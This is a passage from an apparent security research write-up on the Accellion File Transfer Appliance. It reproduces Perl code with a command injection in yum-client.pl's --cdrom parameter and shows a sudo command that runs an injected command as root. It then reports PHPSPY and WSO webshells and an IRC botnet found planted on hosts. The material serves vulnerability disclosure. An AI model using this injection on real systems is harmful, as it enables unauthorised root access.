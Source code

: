 # if this is based on RHEL 5, change the repository
my $OS = `grep -q 5 /etc/redhat-release && echo -n 5`;
my $LOGFILE = "/home/seos/log/yum-client.log";
my $STATUSFILE = "/home/seos/log/yum-client.status";
my $YUMCONFIG = "/etc/yum.conf";
my $YUMDIFF_FILE = '/home/seos/log/yum.diff';

if ($cdrom){
  if ($OS eq "5"){
     $YUM_CMD = "$YUM_CMD -c $cdrom_path/yum.conf-5";
  }else{
     $YUM_CMD = "$YUM_CMD -c $cdrom_path/yum.conf";
  }
  system("mkdir -p /mnt/cdrom && mount -o loop $cdrom $cdrom_path") == 0 or fdielog($LOGFILE,"unable to mount: $!");
}
{% endhighlight %}

After taking a closer look on `ymm-client.pl`, a Command Injection vulnerability was found on the parameter `--cdrom`. This vulnerability enables attackers to inject any commands into the parameter and execute as root.  

Thus, using the commands below
{% highlight bash %}
bash-3.2$ id
uid=99(nobody) gid=99(nobody) groups=99(nobody)

bash-3.2$ sudo /usr/local/bin/yum-client.pl --cdrom='$(id > /tmp/.gg)'

mount: can't find /mnt/cdrom in /etc/fstab or /etc/mtab
unable to mount: Bad file descriptor at /usr/local/bin/yum-client.pl line 113.

bash-3.2$ cat /tmp/.gg
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
{% endhighlight %}

will grant execution freely as root!  
<br>

### Backdoor
<br>
After gaining the highest privilege and carrying out server recon, we identified that several backdoors had been already planted in FTA hosts. One of them is an IRC Botnet which had been mentioned in Niara's [Accellion File Transfer Appliance Vulnerability](http://www.niara.com/docs/ta-accellion-fta-cve-2015-2857.pdf).  
Apart from that, two additional PHP Webshells of different types which had NEVER been noted in public reports were also identified. Through reviewing Apache Log, these backdoors might be placed by exploiting the CVE-2015-2857 vulnerability discovered in mid-2015.  

One of the backdoors is PHPSPY, it is found on 62 of the online hosts globally. It was placed in

> https://\<fta\>/courier/themes/templates/Redirector_Cache.php

The other is WSO, found on 9 of the online hosts globally, placed in
